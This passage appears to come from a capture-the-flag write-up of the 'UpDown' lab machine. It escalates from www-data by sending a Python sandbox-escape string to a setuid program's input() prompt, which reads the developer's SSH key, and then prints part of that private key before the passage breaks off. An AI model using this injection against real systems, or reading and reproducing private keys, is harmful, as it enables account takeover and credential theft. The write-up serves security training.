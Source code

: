 The files inside /home/developer look interesting

```console
www-data@updown:/tmp$ ls -la /home/developer/dev
total 32
drwxr-x--- 2 developer www-data   4096 Jun 22 15:45 .
drwxr-xr-x 6 developer developer  4096 Aug 30 11:24 ..
-rwsr-x--- 1 developer www-data  16928 Jun 22 15:45 siteisup
-rwxr-x--- 1 developer www-data    154 Jun 22 15:45 siteisup_test.py

```

This file siteisup_test.py is actually vulnerable to a python sandbox escape, more info is linked below. Also the binary ./siteisup will call on this file.

https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes


```console
www-data@updown:/home/developer/dev$ cat siteisup_test.py
cat siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```

So very simply all we have to do is abuse the import module for command execution on the system.


```console
www-data@updown:/home/developer/dev$ ./siteisup
./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('cat /home/developer/.ssh/id_rsa')
```
Just like that we get the users key :)

```console
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
ozOB5DeX8rb2bkii6S3Q1tM1VUDoW7cCRbnBMglm2FXEJU9lEv9Py2D4BavFvoUqtT8aCo
srrKvTpAQkPrvfioShtIpo95Gfyx6Bj2MKJ6QuhiJK+O2zYm0z2ujjCXuM3V4Jb0I1Ud+q
a+QtxTsNQVpcIuct06xTfVXeEtPThaLI5KkXElx+TgwR0633jwRpfx1eVgLCxxYk5CapHu
u0nhUpICU1FXr6tV2uE1LIb5TJrCIx479Elbc1MPrGCksQVV8EesI7kk5A2SrnNMxLe2ck
IsQHQHxIcivCCIzB4R9FbOKdSKyZTHeZzjPwnU+FAAAFiHnDXHF5w1xxAAAAB3NzaC1yc2
EAAAGBAJrweNE1jPHrtJ+hTs4sUwNaUN/UqcGMq2Aoyqw7afIORNORBHCcP0taovTxaDb8
5Le1Mt/vusQ3feboAHbbkS+6swNN8UjZKp7dh4IygDzq+nLSLzA6YfCXgRdhfUsuF67Xwj
++vlqc5sU+7rbxg9DdQGN/hBkaTm+6ufV9KXD0ZyFJ8btrDfryF43xr6ogGKMzgeQ3l/K2
9m5Ioukt0NbTNVVA6Fu3AkW5wTIJZthVxCVPZRL/T8tg+AWrxb6FKrU/GgqLK6yr06QEJD
6734qEobSKaPeRn8segY9jCiekLoYiSvjts2JtM9ro4wl7jN1eCW9CNVHfqmvkLcU7DUFa
XCLnLdOsU31V3hLT04WiyOSpFxJcfk4MEdOt948EaX8dXlYCwscWJOQmqR7rtJ4VKSAlNR
V6+rVdrhNSyG+UyawiMeO/RJW3NTD6xgpLEFVfBHrCO5JOQNkq5zTMS3tnJCLEB0B8SHIr
wgiMweEfRWzinUismUx3mc4z8J1PhQAAAAMBAAEAAAGAMhM4KP1ysRlpxhG/Q3kl1zaQXt
b/ilNpa+mjHykQo6+i5PHAipilCDih5CJFeUggr5L7f06egR4iLcebps5tzQw9IPtG2TF+
ydt1GUozEf0rtoJhx+eGkdiVWzYh5XNfKh4HZMzD/sso9mTRiATkglOPpNiom+hZo1ipE0
NBaoVC84pPezAtU4Z8wF51VLmM3Ooft9+T11j0qk4FgPFSxqt6WDRjJIkwTdKsMvzA5XhK
rXhMhWhIpMWRQ1vxzBKDa1C0+XEA4w+uUlWJXg/SKEAb5jkK2FsfMRyFcnYYq7XV2Okqa0
NnwFDHJ23nNE/piz14k8ss9xb3edhg1CJdzrMAd3aRwoL2h3Vq4TKnxQY6JrQ/3/QXd6Qv
ZVSxq4iINxYx/wKhpcl5yLD4BCb7cxfZLh8gHSjAu5+L01Ez7E8MPw+VU3QRG4/Y47g0cq
DHSERme/ArptmaqLXDCYrRMh1AP+EPfSEVfifh/ftEVhVAbv9LdzJkvUR69Kok5LIhAAAA
```